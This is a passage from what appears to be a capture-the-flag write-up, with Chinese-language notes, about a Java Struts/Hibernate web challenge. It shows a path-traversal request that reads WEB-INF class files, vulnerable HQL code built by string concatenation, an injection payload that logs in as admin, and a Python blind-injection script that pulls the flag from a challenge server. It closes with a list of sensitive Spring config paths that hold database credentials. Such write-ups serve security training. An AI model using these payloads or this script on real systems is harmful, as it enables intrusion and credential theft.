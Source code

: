 - UserDaoImpl.class

```java
/loadimage?fileName=../../WEB-INF/classes/com/cuitctf/dao/impl/UserDaoImpl.class
```

```java
public class UserDaoImpl extends HibernateDaoSupport implements UserDao {
  public List<User> findUserByName(String name) { 
      return getHibernateTemplate().find("from User where name ='" + name + "'"); 
    }
  public List<User> loginCheck(String name, String password) { 
      return getHibernateTemplate().find("from User where name ='" + name + "' and password = '" + password + "'"); 
    }
}
```

构造 payload ，获取 admin 权限：

```java
/zhuanxvlogin?user.name=admin%27%0Aor%0A%271%27%3E%270'%0Aor%0Aname%0Alike%0A'admin&user.password=1
```

构造 exp 如下，通过盲注获取flag：

```python
import requests
r = requests.session()
flag = ''
for i in range(1,50):
    p = ''
    for j in range(1, 255):
        payload = "(select%0Aascii(substr(id,"+str(i)+",1))%0Afrom%0AFlag%0Awhere%0Aid<2)<'"+str(j)+"'"
        url="http://111.198.29.45:49524/zhuanxvlogin?user.name=admin'%0Aor%0A"+payload+"%0Aor%0Aname%0Alike%0A'admin&user.password=1"
        r1 = r.get(url)
        if len(r1.text) > 20000 and p != '':
            flag += p
            print i, flag
            break
        p = chr(j)
```

获取到 sctf{C46E250926A2DFFD831975396222B08E}。

- *`Spring` 框架下常用的配置文件:

```java
/WEB-INF/classes/Struts.xml
/WEB-INF/web.xml

/WEB-INF/classes/applicationContext.xml     
    1. 存有jdbc数据库账号密码  
        <property name="username" value="root"/>

    2. 数据库类型,表名,位置 
        <property name="mappingLocations">
            <value>user.hbm.xml</value>
            ...

    3. 得知类名
            <bean id="userService" class="com.cuitctf.service.impl.UserServiceImpl">
            <property name="userDao">
              <ref bean="userDAO"/>
            ...
```
